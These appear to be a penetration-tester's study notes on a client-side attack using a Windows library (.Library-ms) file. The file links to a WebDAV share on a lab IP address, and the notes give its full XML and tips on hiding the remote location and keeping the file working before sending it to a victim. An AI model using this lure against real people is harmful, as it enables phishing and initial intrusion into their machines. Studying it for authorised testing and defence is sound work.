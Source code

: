 ```
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
```

The following listing shows the entire XML, and can be put in the code:
``` xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

Will save and close the file in Visual Studio Code, and then then double-click the **config.Library-ms** file on the Desktop
+ When we open the directory in Explorer, we find the previously-created **test.txt** file we placed in the WebDAV share
+ Therefore, the library file works and embeds the connection to the WebDAV share
+ As an added bonus, the path in the navigation bar only shows **config** without any indication that this is actually a remote location, which makes it a perfect first stage for our client-side attack
![[Pasted image 20230925123016.png]]

When we re-open our file in Visual Studio Code, we find that a new tag appeared named _serialized_
+ The tag contains base64-encoded information about the location of the _url_ tag
+ Additionally, the content inside the _url_ tags has changed from `http://192.168.119.2` to `\\192.168.119.2\DavWWWRoot`
	+ Windows tries to optimize the WebDAV connection information for the Windows WebDAV client and therefore modifies it.
+ The library file still works when we double-click it, but due to the encoded information in the _serialized_ tag, it may not be working on other machines or after a restart
+ This could result in a situation where our client-side attack fails, because Windows Explorer shows an empty WebDAV share
+ To avoid running into any issues when performing this attack, we can reset the file to its original state by pasting the contents of what it was before the update 
+ Unfortunately, we need to do this every time we execute the Windows library file
+ However, this is not a big deal since in most assessments we only need the victim to double-click the file once
+ Once the file has returned to its original state, we are ready to send the file to our victim
